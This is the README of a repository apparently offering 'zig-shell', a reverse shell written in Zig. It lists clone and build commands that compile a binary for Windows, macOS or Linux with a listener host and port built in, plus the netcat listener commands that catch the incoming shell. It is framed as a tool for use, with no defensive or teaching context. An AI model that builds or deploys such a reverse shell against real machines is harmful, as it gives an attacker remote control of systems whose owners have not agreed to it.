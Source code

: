 # zig-shell
> simple reverse shell in zig

# usage
> download zig 0.14 from https://ziglang.org/download/ extract and add it to your path

1. `git clone https://github.com/ziggoon/zig-shell`
2. `cd zig-shell`
3. `zig build -Dos=windows -Darch=x86 -Dhost="192.168.0.1" -Dport=443`
4. binary will be output to ./zig-out/bin/ivy

build.zig options:
`os`: operating system (windows, macos, linux) \
`arch`: cpu architecture (x86 or arm) \ 
`host`: ip / fqdn for your nc listener \
`port`: port for your nc listener \

nc usage:
*nix: `nc -lvnp 443`
macos: `nc -lv 443`

*note: this probably works on all operating systems and cpu architectures i just haven't tested*
